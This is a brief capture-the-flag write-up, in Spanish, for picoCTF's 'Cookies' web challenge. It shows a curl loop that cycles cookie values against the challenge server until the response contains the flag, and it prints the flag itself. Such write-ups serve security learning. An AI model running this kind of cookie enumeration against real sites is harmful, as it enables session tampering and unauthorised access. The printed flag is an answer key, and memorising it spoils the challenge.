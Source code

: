 Who doesn't love cookies? Try to figure out the best one. [http://mercury.picoctf.net:21485/](http://mercury.picoctf.net:21485/)

### Solucion 
web, debian
```
con uso de curl en un ciclo se consultaron las cookies para encontrar la que tenia la flag:

erik@DESKTOP-NC0TP9I:~$ for i in {1..30}; do curl -s http://mercury.picoctf.net:21485/check -H "Cookie: name=$i"; done |
 grep 'picoCTF{'
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_94190c8a}</code></p>
erik@DESKTOP-NC0TP9I:~$
```